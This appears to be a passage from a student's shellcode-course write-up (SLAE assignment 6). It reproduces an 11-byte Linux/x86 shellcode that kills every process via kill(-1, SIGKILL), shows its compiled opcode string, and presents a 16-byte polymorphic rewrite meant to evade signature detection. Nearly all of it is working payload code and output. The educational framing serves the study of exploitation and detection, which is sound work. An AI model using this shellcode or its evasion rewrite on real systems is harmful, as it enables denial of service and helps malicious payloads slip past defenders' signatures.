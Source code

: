 ```nasm
;By Kris Katterjohn 11/13/2006

;11 byte shellcode to kill all processes for Linux/x86
global _start

section .text

_start:

  ; kill(-1, SIGKILL)
  push byte 37
  pop eax
  push byte -1
  pop ebx
  push byte 9
  pop ecx
  int 0x80
```

#### Compiling the Original Shellcode

```nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ ./compile.sh kill-all-processes-original
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
"\x6a\x25\x58\x6a\xff\x5b\x6a\x09\x59\xcd\x80"
[+] Size: 11 bytes
skawa@ubuntu:~/Desktop/code/assignment/assignment6$
```

#### Polymorphic Shellcode
The polymorphic version of the shellcode I have created can be found <a href="https://github.com/skahwah/slae/blob/master/assignment6/kill-all-processes.nasm">here</a>

Below is an explanation of the changes.

```nasm
;kill-all-processes.nasm
;this kills all processes on the local system
;Linux x86
;Saniv Kawa (@skawasec)
;www.popped.io
;December 6, 2016
;16 bytes

global _start

section .text

_start:

  push byte 9
  mov al, 9  ;arithmetic for AL register
  mov cl, 4 ;arithmetic for AL register
  mul cl ;arithmetic for AL register. AL now contains 36
  inc al ;AL now contains the correct syscall number, 37
  pop ecx ;ECX contains 9
  push byte -1
  pop ebx
  int 0x80
```

